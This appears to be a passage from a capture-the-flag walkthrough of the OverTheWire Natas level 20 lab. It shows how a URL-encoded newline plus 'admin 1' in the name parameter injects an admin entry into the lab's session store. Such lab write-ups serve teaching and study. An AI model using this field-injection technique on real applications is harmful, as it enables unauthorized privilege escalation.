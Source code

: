 OK let's try a simple test to init our session:

[http://natas20.natas.labs.overthewire.org/index.php?debug=1&name=love](http://natas20.natas.labs.overthewire.org/index.php?debug=1&name=love)

![](/assets/images/2018/12/overthewire-natas20-step-1.png)

And now let's add a newline (URL encoded value `%0A`) and `admin 1`:

[http://natas20.natas.labs.overthewire.org/index.php?debug=1&name=love%0Aadmin%201](http://natas20.natas.labs.overthewire.org/index.php?debug=1&name=love%0Aadmin%201)

(You need to load the page twice as we read, then we write) And you should get the following:

![](/assets/images/2018/12/overthewire-natas20-step-2.png)
